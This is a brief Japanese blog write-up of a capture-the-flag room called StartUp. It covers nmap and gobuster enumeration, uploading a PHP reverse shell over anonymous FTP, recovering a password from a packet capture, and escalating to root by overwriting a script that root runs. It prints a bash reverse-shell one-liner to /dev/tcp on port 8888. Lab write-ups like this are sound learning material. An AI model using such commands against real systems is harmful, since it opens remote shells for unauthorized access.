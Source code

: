 ```yaml
---
title: "StartUp"
date: 2024-02-21T02:52:30+09:00
draft: false
---
```


最近 KAGOME の朝フルーツこれ一本を昼ごはんにしている\
健康になった気でいる

### enum

- nmap
  - ftp
  - ssh
  - http
- gobuster
  - files

### FTP

- anonymous ログインができる
- http から files で中身が見れて，ftp の中身が同期していることが分かる
- php のリバースシェルを配置する
  - ```put php-reverse-shell.php```

### シェル

- とりあえず中に入るとレシピが見れる
- lennie でログインする必要がある
- ./incidents ディレクトリ内で .pcapng が手に入る
- wireshark で .pcapng の TCP ストリームを追うとパスワードが手に入る
- これが lennie のパスワードだった(!?)
- あとは user.txt

### root.txt

- ./linpeas.sh はすぐに使えそうなものはない．．．
- ./scripts ディレクトリがあるので探してみる
  - ./planner.sh が root で動作している
  - ./planner.sh が呼び出す ./print.sh は lennie が所有している
  - lennei で print.sh を書き換えて bash を呼び出せば root シェルが手に入る
    - ```echo "/bin/bash -i >& /dev/tcp/[ip]/8888 0>&1" > /etc/print.sh```
  - robot.txt を手に入れる
